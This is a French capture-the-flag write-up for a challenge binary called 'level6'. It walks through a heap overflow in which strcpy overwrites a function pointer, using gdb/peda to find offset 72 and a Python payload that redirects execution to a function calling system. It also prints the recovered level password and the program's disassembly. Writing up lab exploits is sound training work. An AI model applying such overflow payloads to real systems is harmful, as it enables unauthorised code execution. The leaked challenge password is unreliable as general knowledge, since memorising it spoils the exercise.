 ## Démarche

- Le programme `./level6` prend au moins un paramètre
    > Segmentation fault (core dumped)

    `./level6 1`
    > Nope

    Le `main` prend un paramètre et le compare, en fonction du résultat, il appelle la fonction `m` qui *puts* "Nope\n" ou la fonction `n` qui fait un appel système.

- Si on jump à l'adresse de `n` manuellement depuis gdb (`jump *0x08048454`), on peut constater que la fonction `n` appelle un *bash* et *cat* le fichier *.pass* :
    ```
    [New process 4645]
    process 4645 is executing new program: /bin/dash
    process 4646 is executing new program: /bin/cat
    /bin/cat: /home/user/level7/.pass: Permission denied
    ```


- Avec peda dans gdb, on récupère la taille allouée pour la copie du paramètre :

    `pattern search`
    ```
    Registers contain pattern buffer:
    EIP+0 found at offset: 72
    EAX+0 found at offset: 72
    No register points to pattern buffer
    Pattern buffer found at:
    0x0804a008 : offset    0 - size  100 ([heap])
    0xbffff87d : offset    0 - size  100 ($sp + 0x201 [128 dwords])
    References to pattern buffer found at:
    0xbffff670 : 0x0804a008 ($sp + -0xc [-3 dwords])
    0xbffff680 : 0x0804a008 ($sp + 0x4 [1 dwords])
    0xbffff69c : 0x0804a008 ($sp + 0x20 [8 dwords])
    0xbffff668 : 0xbffff87d ($sp + -0x14 [-5 dwords])
    0xbffff684 : 0xbffff87d ($sp + 0x8 [2 dwords])
    0xbffff748 : 0xbffff87d ($sp + 0xcc [51 dwords])
    ```

- On passe alors en paramètre une chaine de la taille de l'offset, suivie de l'adresse de la fonction `n`
- `./level6 $(python -c 'print("A"*72+"\x54\x84\x04\x08")')`
> f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d


<br>


---

## Ressources




----

- `objdump -d level6` :
  ```
    08048454 <n>:
        8048454:	55                   	push   %ebp
        8048455:	89 e5                	mov    %esp,%ebp
        8048457:	83 ec 18             	sub    $0x18,%esp
        804845a:	c7 04 24 b0 85 04 08 	movl   $0x80485b0,(%esp)
        8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
        8048466:	c9                   	leave
        8048467:	c3                   	ret

    08048468 <m>:
        8048468:	55                   	push   %ebp
        8048469:	89 e5                	mov    %esp,%ebp
        804846b:	83 ec 18             	sub    $0x18,%esp
        804846e:	c7 04 24 d1 85 04 08 	movl   $0x80485d1,(%esp)
        8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
        804847a:	c9                   	leave
        804847b:	c3                   	ret
    
    0804847c <main>:
        804847c:	55                   	push   %ebp
        804847d:	89 e5                	mov    %esp,%ebp
        804847f:	83 e4 f0             	and    $0xfffffff0,%esp
        8048482:	83 ec 20             	sub    $0x20,%esp
        8048485:	c7 04 24 40 00 00 00 	movl   $0x40,(%esp)
        804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
        8048491:	89 44 24 1c          	mov    %eax,0x1c(%esp)
        8048495:	c7 04 24 04 00 00 00 	movl   $0x4,(%esp)
        804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
        80484a1:	89 44 24 18          	mov    %eax,0x18(%esp)
        80484a5:	ba 68 84 04 08       	mov    $0x8048468,%edx
        80484aa:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ae:	89 10                	mov    %edx,(%eax)
        80484b0:	8b 45 0c             	mov    0xc(%ebp),%eax
        80484b3:	83 c0 04             	add    $0x4,%eax
        80484b6:	8b 00                	mov    (%eax),%eax
        80484b8:	89 c2                	mov    %eax,%edx
        80484ba:	8b 44 24 1c          	mov    0x1c(%esp),%eax
        80484be:	89 54 24 04          	mov    %edx,0x4(%esp)
        80484c2:	89 04 24             	mov    %eax,(%esp)
        80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
        80484ca:	8b 44 24 18          	mov    0x18(%esp),%eax
        80484ce:	8b 00                	mov    (%eax),%eax
        80484d0:	ff d0                	call   *%eax
        80484d2:	c9                   	leave
        80484d3:	c3                   	ret
  ```